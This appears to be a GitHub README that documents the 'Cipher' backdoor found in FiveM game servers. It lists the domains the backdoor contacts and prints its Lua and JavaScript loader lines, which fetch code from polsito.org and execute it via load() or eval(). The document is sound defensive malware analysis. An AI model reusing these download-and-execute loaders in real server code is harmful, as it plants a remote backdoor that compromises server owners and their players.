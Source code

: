 # CIPHER Backdoor

## Step 0? - Random URL
Cipher keeps using different new URLs to keep them undetected or not immediately noticeable, some of these URLs are/might be;
- polsito.org
- cipher-panel.me
- keyx.club
- 0resmon.net
- cfx-re.org
- kutingplays.com
- trezz.org
- dec4t.org

## ⚠️ Keep in mind that with some domains they try to imitate other shops or similar to appear more authentic. ⚠️

----------------

<details>
  <summary>LUA Payload (Click to expand)</summary>

  ## Step - 1 - Payload Code
  The Server loads this code from a js file to get and load the backdoor by a suspicious HTTP Request URL like this: `PerformHttpRequest('https://polsito.org/.........', function (e, d) pcall(function() assert(load(d))() end) end)`

  **Beautified:**
  ```lua
  PerformHttpRequest('https://polsito.org/..........', function(error, response) 
  	pcall(function() 
  		assert(load(response))() 
  	end)
  end)
  ```

  ## Step - 2 - Obfuscated Backdoor
  The backdoor itself is encrypted/obfuscated, so I will only be able to show the encrypted/obfuscated code:
  [Click here to get to the file](https://github.com/zImSkillz/fivem-known-backdoors/blob/main/cipher-backdoor-locked-lua)
</details>

<details>
  <summary>JS Payload (Click to expand)</summary>

  ## Step - 1 - Payload Code:
  The Server loads this code from a js file to get and load the backdoor by a suspicious HTTP Request URL like this: `https.get('https://polsito.org/......',r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));})`

  **Beautified:**
  ```js
  https.get('https://polsito.org/........', response => {
    let data = '';
    response.on('data', chunk => data += chunk);
    response.on('end', () => eval(data));
  })
  ```
  
  ## Step - 2 - Obfuscated Backdoor
  The backdoor itself is encrypted/obfuscated, so I will only be able to show the encrypted/obfuscated code:
  [Click here to get to the file](https://github.com/zImSkillz/fivem-known-backdoors/blob/main/cipher-backdoor-locked-js)
</details>

## Step - 3 - Injecting to other resources
Now Cipher installs itself in other resources and system files.
